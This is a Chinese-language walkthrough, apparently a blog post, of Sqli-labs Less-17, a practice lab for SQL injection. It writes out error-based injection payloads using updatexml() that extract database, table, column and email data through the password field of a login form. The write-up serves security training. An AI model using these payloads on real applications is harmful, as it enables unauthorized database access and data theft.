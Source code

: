 
# Sqli-labs-Less-17
第十七关与前面不同，他会随着每一次的登录而改变密码<br />![](https://img-blog.csdnimg.cn/20200719111519419.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=OXaUb&originHeight=216&originWidth=665&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
因为密码的不确定性，这里用报错注入的方法进行注入。

首先用账户和密码都为admin进行登录，通过burp获取post类容<br />![](https://img-blog.csdnimg.cn/20200719112112875.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=YlUvd&originHeight=349&originWidth=784&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
因为密码是改变的，我们在密码上进行注入<br />uname=admin&passwd='&submit=Submit<br />当时用一个`'`时有报错回显<br />![](https://img-blog.csdnimg.cn/20200719112251913.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=ihBCd&originHeight=271&originWidth=1202&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

使用#进行注释，没有报错<br />uname=admin&passwd=' #&submit=Submit<br />![](https://img-blog.csdnimg.cn/2020071911233072.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=x6bjl&originHeight=228&originWidth=716&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
利用这种错误回显，我们可以通过floor()、updatexml()等函数将要查询的内容输出到页面上。

**查询当前数据库名称**<br />uname=admin&passwd=' or updatexml(1,concat(0x7e,(select database()),0x7e),1)#&submit=Submit<br />![](https://img-blog.csdnimg.cn/20200719112923690.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=Y8VJo&originHeight=263&originWidth=671&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查询数据库名称**<br />uname=admin&passwd=' or updatexml(1,concat(0x7e,(select schema_name from information_schema.schemata limit 0,1),0x7e),1) #&submit=Submit<br />![](https://img-blog.csdnimg.cn/20200719122911835.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=SybPj&originHeight=298&originWidth=749&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**使用group_cincat()函数**（因为输出字符数限制，效果不是很好，不建议使用）<br />uname=admin&passwd=' or updatexml(1,concat(0x7e,(select group_concat(schema_name) from information_schema.schemata),0x7e),1) #&submit=Submit<br />![](https://img-blog.csdnimg.cn/20200719122818709.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=WWylc&originHeight=276&originWidth=662&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**可以使用substring()函数查看32位以后的数据**<br />uname=admin&passwd=' or updatexml(1,concat(0x7e,substring((select group_concat(schema_name) from information_schema.schemata),30,32),0x7e),1) #&submit=Submit<br />![](https://img-blog.csdnimg.cn/20200719130606328.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=jqqxC&originHeight=291&originWidth=699&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查询表的名称（security库）**<br />uname=admin&passwd=' or updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='security' limit 0,1),0x7e),1) #&submit=Submit<br />![](https://img-blog.csdnimg.cn/20200719123119982.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=KwbsL&originHeight=268&originWidth=631&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查询字段（users）**<br />uname=admin&passwd=' or updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 0,1),0x7e),1) #&submit=Submit<br />![](https://img-blog.csdnimg.cn/20200719123305922.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=QXOM2&originHeight=262&originWidth=640&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查询账户**<br />uname=admin&passwd=' or updatexml(1,concat(0x7e,(select username from security.users),0x7e),1) #&submit=Submit<br />出错：You can't specify target table 'users' for update in FROM clause<br />![](https://img-blog.csdnimg.cn/20200719124540277.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=HVQ3p&originHeight=270&originWidth=645&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**不过我们可以用这种方法爆破别的表（emails）**<br />uname=admin&passwd=' or updatexml(1,concat(0x7e,(select group_concat(id,email_id) from security.emails),0x7e),1) #&submit=Submit<br />![](https://img-blog.csdnimg.cn/2020071913022047.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=z8X7S&originHeight=278&originWidth=674&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**以此类推判断出其他数据。**


